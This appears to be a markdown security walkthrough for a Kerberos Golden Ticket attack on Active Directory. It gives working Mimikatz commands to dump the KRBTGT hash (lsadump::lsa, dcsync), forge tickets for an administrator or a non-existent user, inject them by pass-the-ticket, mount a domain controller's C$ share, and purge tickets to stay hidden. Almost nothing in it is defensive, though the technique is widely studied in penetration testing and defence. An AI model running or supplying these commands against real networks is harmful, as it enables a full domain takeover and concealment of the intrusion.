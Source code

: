 ## Golden Ticket Attack (Kerberos Abuse)

### Overview

A *8Golden Ticket Attack** exploits the kerberos authentication system in Active Directory (AD) by forging Ticket Granting Tickets (TGTs) using the KRBTGT account's password hash.

The **KRBTGT** account is critical because it signs and encrypts kerberos tickets. If compromised, attackers can generate TGTs for any identity, with any privileges, at will - gaining total control over AD authentication

---

### Attack Workflow

#### 1. Obtai KRBTGT Password hash

* Goal : Extract NTLM or AES password hash of the **KRBTGT** account.
* Tool : Mimikatz

```cmd
mimikatz.exe
```

```cmd
privilege::debug
```

```cmd
lsadump::lsa /inject /name:krbtgt
```

alternatively (over the network):

```cmd
lsadump::dcsync /user:DOMAIN\krbtgt
```

#### 2. Extract Domain Information

Retrieve :

* Domain FQDN
* Domain SID

#### 3. Generate a Golden Ticket

Craft the Golden Ticket using ``kerberos::golden``

Required Parameters:

* ``/domain`` : FQDN of the domain
* ``/sid`` : Domain SID
* ``/krbtgt`` or ``/aes256`` : Hash of the KRBTGT account
* ``/user`` : Username to impersonate
* ``/id`` : RID of the user (e.g. 500 for administrator)
* ``/groups`` : (optional) Group RIDs to assign
* ``/ptt`` : (Optional) Inject ticket directly into memory

Examples:

Forge and export to a ``.kirbi`` file:

```cmd
kerberos::golden /user:Administrator /domain:infosecwarrior.local /sid:<SID> /krbtgt:<Hash> /id:500 /groups:513
```

Forge and inject immediately (PtT attack)

```cmd
kerberos::golden /user:Administrator /domain:infosecwarrior.local /sid:<SID> /krbtgt:<Hash> /id:500 /ptt
```

Another forging example (for a non-existing user)

```cmd
kerberos::golden /domain:infosecwarrior.local /sid:<SID> /aes256:<Hash> /user:NonExistentUser /groups:513,2668 /ptt
```

---

### 4. Pass-the-Ticket (PtT) Attack

With the Golden ticket in hand, the attacker performs a Pass-the-Ticket(PtT) attack. This involves loadingthe forged ticket into the currentsession, essentially impersonating any user and gaining access to resources connected to Active Directory.

**Access to any resource**: once the golden ticket is loaded into the session, the attacker can access any resources within the compromised Active Directory enviornment. This includes systems, services and data, effectively bypassing normal authentication mechanisms

After ticket injection

```cmd
misc::cmd
```

* list Kerberos tickets

```cmd
klist
```

```cmd
net use K: \\dc.infosecwarrior.local\C$
```

---

### 5. Clear Kerberos Tickets

(Optional, for stealthiness)

```cmd
klist purge
```